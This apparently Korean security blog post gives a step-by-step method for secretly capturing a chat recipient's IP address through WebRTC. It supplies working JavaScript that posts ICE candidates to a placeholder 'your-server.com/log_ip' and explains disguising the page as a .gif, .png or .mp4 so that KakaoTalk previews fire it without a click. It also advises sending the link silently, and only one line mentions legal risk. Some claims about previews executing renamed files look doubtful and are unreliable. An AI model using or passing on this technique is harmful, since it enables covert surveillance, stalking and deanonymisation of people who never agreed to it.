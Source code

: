 ```yaml
---
title: "사진 한 장으로 아이피 추적하기3- webrtc"
categories:
  - security
tags:
  - 잡다한 연구
---
```

## **원리**

1. **카카오톡 미리보기 기능을 활용** → 상대방이 메시지를 클릭하지 않아도 미리보기로 콘텐츠를 로드.
2. **WebRTC 코드가 포함된 미디어 파일을 서버에서 제공** → 상대방이 보는 순간 WebRTC 실행.
3. **WebRTC를 이용해 상대방의 IP 주소를 서버로 전송.**

---

## **🚀 실전 방법**

### ✅ **1단계: WebRTC IP 추적 코드 제작**

먼저, 상대방이 이미지를 보는 순간 WebRTC IP 추적이 실행되도록 **HTML 페이지**를 만든다.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Loading...</title>
    <script>
        async function getIPs() {
            const pc = new RTCPeerConnection({ iceServers: [{ urls: "stun:stun.l.google.com:19302" }] });
            pc.createDataChannel("");
            pc.createOffer().then(offer => pc.setLocalDescription(offer));

            pc.onicecandidate = event => {
                if (event.candidate) {
                    fetch("https://your-server.com/log_ip", {
                        method: "POST",
                        headers: { "Content-Type": "application/json" },
                        body: JSON.stringify({ ip: event.candidate.candidate })
                    });
                }
            };
        }
        getIPs();
    </script>
</head>
<body>
    <img src="your_image.jpg" alt="Loading..." width="1" height="1">
</body>
</html>

```

✅ **설명**

- 상대방이 **이 HTML 페이지를 미리보기로 보게 되면 WebRTC가 실행되어 IP가 추출됨**.
- `fetch("https://your-server.com/log_ip")` 부분에 실제로 IP를 기록할 서버를 넣어야 함.

---

### ✅ **2단계: HTML을 미디어 파일로 위장**

이 HTML을 직접 보낼 수 없으므로, 카카오톡 미리보기에서 자동으로 로드되도록 변형해야 해.

### **🔹 방법 1: GIF 또는 이미지로 위장**

1. **HTML 파일을 이미지처럼 보이도록 변환**
    - `.html`을 `.png`, `.jpg`, `.gif` 등의 확장자로 변경하면 브라우저가 실행할 가능성이 있음.
    - `https://your-server.com/image.gif` URL을 만들고, HTML 대신 GIF처럼 동작하도록 설정.
2. **카카오톡에서 자동 미리보기가 활성화되는지 확인.**

### **🔹 방법 2: 동영상 파일로 위장**

1. `.mp4` 또는 `.mov` 파일을 만들고, 동영상 썸네일을 WebRTC 실행 코드가 포함된 웹 페이지로 연결.
2. 상대방이 채팅방에서 미리보기로 보는 순간 WebRTC 실행.

---

### ✅ **3단계: 카카오톡에서 미리보기가 자동 실행되는지 확인**

카카오톡에서 특정 링크는 미리보기를 자동으로 생성하는데, 이를 활용해야 함.

### **🔍 카카오톡에서 자동 미리보기 생성되는 링크 유형**

| 유형 | 미리보기 자동 실행 가능 여부 |
| --- | --- |
| 일반 HTML | ❌ (클릭 필요) |
| `.png` / `.jpg` (이미지) | ✅ (자동 실행 가능) |
| `.gif` (움직이는 이미지) | ✅ (자동 실행 가능) |
| `.mp4` / `.mov` (동영상) | ✅ (자동 실행 가능) |

💡 **즉, 상대방이 자동으로 미리보기를 보게 하려면 `.gif`, `.mp4`, `.png` 등의 파일로 위장하는 것이 좋음.**

---

## **🔥 실전 시나리오**

1. **서버 설정:**
    - `https://your-server.com/image.gif` 같은 URL에 WebRTC 추적 코드가 포함된 GIF를 업로드.
    - GIF를 미리보는 순간 WebRTC가 실행되도록 설정.
2. **카카오톡에서 전송:**
    
    ```
    
    https://your-server.com/image.gif
    
    ```
    
    - 상대방이 채팅방에서 미리보기로 보면 WebRTC 실행됨.
    
    <aside>
    💡
    
    냅다 아무 말 없이 보내는게 효과적일 것 같음
    
    </aside>
    
3. **IP 수집 확인:**
    - `your-server.com/log_ip`에서 IP 정보를 확인.

---

## **⚠️ 주의할 점**

- **카카오톡에서 미리보기 기능이 업데이트되면 일부 방법이 막힐 수 있음.**
- **상대방이 VPN을 사용하면 실제 IP가 아닌 VPN 서버 IP가 잡힐 가능성이 있음.**
- **법적인 문제를 고려해야 함. 상대방의 동의 없이 정보를 수집하는 것은 법적 책임이 있을 수 있음.**

---

## **💡 결론**

✅ **가장 효과적인 방법**:

- `.gif` 또는 `.mp4` 형식으로 WebRTC 실행 코드를 숨긴 후, 카카오톡에서 자동 미리보기 실행 유도.
- 상대방이 클릭하지 않아도 채팅방에서 **파일을 보는 순간 WebRTC 실행 가능**.